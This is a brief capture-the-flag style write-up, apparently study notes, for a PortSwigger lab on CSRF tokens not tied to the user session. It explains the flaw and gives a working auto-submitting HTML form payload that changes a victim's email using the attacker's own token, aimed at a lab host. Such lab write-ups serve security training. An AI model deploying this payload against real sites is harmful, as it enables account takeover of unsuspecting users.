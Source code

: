 
#CSRF #CSRF-Tokens 

CSRF where token is not tied to user session: [link](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session)

Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.

in this challenge you should send correct token but the backend does not check if the token tied in to the session so the solution is create an account and take the token from it and send token with you request:

this is my token `96qe9cTCz0dpdYnZnKCo9kkgBJD5Tn6J` and i will try to send the request with it 

**payload :**

```
<html>

<form class="login-form" name="change-email-form" action="https://0a5a00940488727a81a19d16002d00d0.web-security-academy.net/my-account/change-email" method="POST">

<label>Email</label>

<input required="" type="email" name="email" value="helllo@gmail.com">

<input required="" type="hidden" name="csrf" value="96qe9cTCz0dpdYnZnKCo9kkgBJD5Tn6J">

<button class="button" type="submit"> Update email </button>

</form>

<script>

document.forms[0].submit()

</script>

</html>

```